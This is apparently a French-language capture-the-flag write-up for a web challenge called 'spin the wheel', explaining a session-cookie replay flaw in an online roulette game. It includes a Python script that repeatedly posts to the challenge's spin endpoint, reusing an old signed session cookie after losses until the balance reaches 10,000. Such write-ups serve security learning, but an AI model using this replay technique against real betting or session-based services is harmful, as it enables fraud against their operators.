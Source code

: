 # Challenge

## Enoncé 

```
Description (français)

Vous aimez les jeux de hasard? Eh bien, c'est votre jour de chance!
Soyez raisonnables...
Description (english)

Do you like games of chance? Well you're in luck!
Be reasonable...
Connexion
https://spinthewheel.c.unitedctf.ca


```

## Résolution 

En arrivant sur la page web, on découvre une magnifique ... roue de la fortune : 

![alt text](image.png)

En trifouillant le site, on remarque un cookie JWT : 

![alt text](image-1.png)

Malheureusement, il est signé, et l'on ne semble pas disposer de méthode pour déterminer le signature. 

Cependant, il nous est possible de tirer la roue avec un ancien cookie. Par conséquent, on peut faire un programme qui lance la roue jusqu'à obtenir 10,000$ en conservant notre ancien cookie si l'on perd. 


Voici le code qui le fait : 

```
import requests

# URL de la requête
url = 'https://spinthewheel.c.unitedctf.ca/spin'

# Les données à envoyer dans la requête POST
data = {}

# Le cookie de session
cookies = {
    'session': 'eyJiYWxhbmNlIjo2MzU2LCJ1aWQiOnsiIHUiOiIzZGVlMGI4M2IyNDE0MTg5YjZkMzhmNjgwMmUwZDlhYSJ9fQ.ZuvYFA.4giOZoqkOIjZDncLunQKCTxKjds'
}

# Envoi de la requête POST avec le cookie
response = requests.post(url, data=data, cookies=cookies)

current_amount = response.json().get('new_balance')
current_cookie = cookies

while current_amount < 10000:
    response = requests.post(url, data=data, cookies=current_cookie)
    amount = response.json().get('new_balance')
    cookie = response.cookies.get('session')
    if amount != 0:
        current_cookie = {'session': cookie}
        current_amount = amount
    print(current_amount)
    print(current_cookie)

```

On obtient alors : 

![alt text](image-2.png)